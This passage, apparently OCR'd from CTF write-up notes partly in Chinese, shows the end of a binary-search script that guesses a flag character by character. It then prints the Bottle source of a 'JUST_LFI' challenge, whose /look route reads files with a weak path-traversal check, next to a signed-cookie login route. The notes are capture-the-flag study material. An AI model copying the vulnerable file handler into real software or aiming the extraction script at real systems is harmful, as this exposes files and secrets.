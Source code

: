 		              else:
		                  l = mid + 1
		          if test(known + chr(l)):
		              known += chr(l)
		          else:
		              break
		  
		      return known
		  
		  guess_from("fla")
		  
		  ```
- # JUST_LFI
  id:: 644b83b7-1c5b-4abb-9329-42c4f0b7fa44
	- 使用lfi可以看到下面的两个源码
	- `/app/app.py`源码
		- ```python
		  from bottle import route, run, template, request, response, error
		  from config.secret import key
		  import os
		  import re
		  
		  
		  @route("/")
		  def home():
		      return template("index")
		  
		  
		  @route("/look")
		  def index():
		      response.content_type = "text/plain; charset=UTF-8"
		      param = request.query.file
		      if re.search("^../app", param):
		          return "大咩大咩！！！"
		      req_path = os.path.join(os.getcwd() + "/look", param)
		      try:
		          with open(req_path) as f:
		              fi = f.read()
		      except Exception as e:
		          return "Wuhu"
		      return fi
		  
		  
		  @error(404)
		  def error404(error):
		      return template("error")
		  
		  
		  @route("/login")
		  def index():
		      try:
		          session = request.get_cookie("user", secret=key)
		          if not session or session["user"] == "ggg":
		              session = {"user": "ggg"}
		              response.set_cookie("name", session, secret=key)
		              return template("guest", name=session["user"])
		          if session["user"] == "admin":
		              return template("admin", name=session["user"])
		      except:
		          return "baDDDDDDDDDdddddddddddddddd"
		  